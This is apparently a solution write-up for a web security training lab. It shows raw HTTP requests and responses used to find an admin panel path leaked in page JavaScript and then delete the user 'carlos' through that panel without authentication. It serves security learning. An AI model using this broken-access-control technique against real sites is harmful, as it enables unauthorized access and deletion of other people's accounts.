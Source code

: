 ## Lab: Unprotected admin functionality with unpredictable URL

This lab has an unprotected admin panel. It's located at an unpredictable location, but the location is disclosed somewhere in the application.

Solve the lab by accessing the admin panel, and using it to delete the user `carlos`.

## Solution:
When entering the root of the site we find a script-tag in the response containing some javascript that creates an a-tag with a href pointing to ```/admin-4akd4x``` if the isAdmin variable is set to true. But we get the endpoint either way.

Request:
```http
GET / HTTP/1.1
Host: 0a00009103afc0ff8468407900eb00c8.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=u8F4uANMbpVZjR20J1AWQTiHYgSsJq3x; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 11051

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>Unprotected admin functionality with unpredictable URL</title>
    </head>
**********SNIP**********
<script>
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-4akd4x');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
</script>
**********SNIP**********
```

We try to send a request to this endpoint.
Request:
```http
GET /admin-4akd4x HTTP/2
Host: 0a00009103afc0ff8468407900eb00c8.web-security-academy.net
Cookie: session=u8F4uANMbpVZjR20J1AWQTiHYgSsJq3x
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3536

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Unprotected admin functionality with unpredictable URL</title>
    </head>
**********SNIP**********
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/admin-4akd4x/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/admin-4akd4x/delete?username=carlos">Delete</a>
                        </div>
                    </section>
**********SNIP**********
```

In the response snippet we find the URI:s for deleting users again.
Request:
```http
GET /admin-4akd4x/delete?username=carlos HTTP/2
Host: 0a00009103afc0ff8468407900eb00c8.web-security-academy.net
Cookie: session=u8F4uANMbpVZjR20J1AWQTiHYgSsJq3x
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 302 Found
Location: /admin-4akd4x
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

We get a 302 which redirects us back to the admin panel with the message
![](../img/Deleted_User_Successfully.png)